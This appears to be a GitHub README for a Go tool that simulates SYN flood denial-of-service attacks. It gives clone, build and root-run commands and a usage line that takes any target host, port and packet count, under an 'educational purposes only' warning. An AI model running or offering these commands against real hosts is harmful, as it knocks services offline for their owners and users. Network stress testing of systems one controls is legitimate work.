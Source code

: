 # SYN Flood Testing Tool

A simple network testing tool for simulating SYN flood attacks, written in Go using the gopacket library.

⚠️ **WARNING: Educational purposes only. Unauthorized usage against targets is illegal.**

## Quick Start

```bash
# Clone repository
git clone https://github.com/Supakornn/syn-flood
cd syn-flood

# Install dependencies
go mod tidy

# Build
go build

# Run (requires root privileges)
sudo go run main.go
```

## Requirements

- Go 1.16+
- Root/Administrator privileges
- libpcap (install via `brew install libpcap` on macOS)

## Usage

```bash
sudo ./syn-flood -interface <network-interface> -target <target-ip-or-domain> -port <target-port> -numPackets <number-of-packets>
```

Example:

```bash
sudo ./syn-flood -interface en0 -target example.com -port 80 -numPackets 1000
```
